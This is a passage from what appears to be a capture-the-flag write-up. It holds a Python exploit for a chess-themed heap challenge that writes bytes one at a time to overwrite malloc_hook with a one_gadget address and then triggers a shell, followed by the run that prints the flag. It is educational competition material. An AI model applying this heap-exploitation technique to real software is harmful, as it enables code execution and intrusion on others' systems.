 ```python
    for idx, i in enumerate(vals):
        count = int("0x"+hex(mov_count)[-2:], 16)
        if count < i:
            while count < i:
                move_bishop(2)
                count = int("0x"+hex(mov_count)[-2:], 16)
            smite(0, idx, 0)
        else:
            while count != 0:
                move_bishop(2)
                count = int("0x"+hex(mov_count)[-2:], 16)
            while count < i:
                move_bishop(2)
                count = int("0x"+hex(mov_count)[-2:], 16)
            smite(0, idx, 0)

    add(1)
    add(0)

    for i in range(8):
        move_x(0, i, 6, 0)
    
    #Overwrite malloc_hook to one_gadget
    vals = getvals(gadget)

    for idx, i in enumerate(vals):
        count = int("0x"+hex(mov_count)[-2:], 16)
        if count < i:
            while count < i:
                move_bishop(2)
                count = int("0x"+hex(mov_count)[-2:], 16)
            smite(0, idx, 0)
        else:
            while count != 0:
                move_bishop(2)
                count = int("0x"+hex(mov_count)[-2:], 16)
            while count < i:
                move_bishop(2)
                count = int("0x"+hex(mov_count)[-2:], 16)
            smite(0, idx, 0)

    while count != 0:
        move_bishop(2)
        count = int("0x"+hex(mov_count)[-2:], 16)
    smite(0, 6, 0)
    smite(0, 7, 0)

    #Call malloc to get shell!
    add(0)
    
    io.interactive()
```

## Flag

```console
d4rk_kn1gh7 @ BatMobile  python exp.py
$ cat flag.txt
actf{thatll_shut_the_freshmen_up}
```
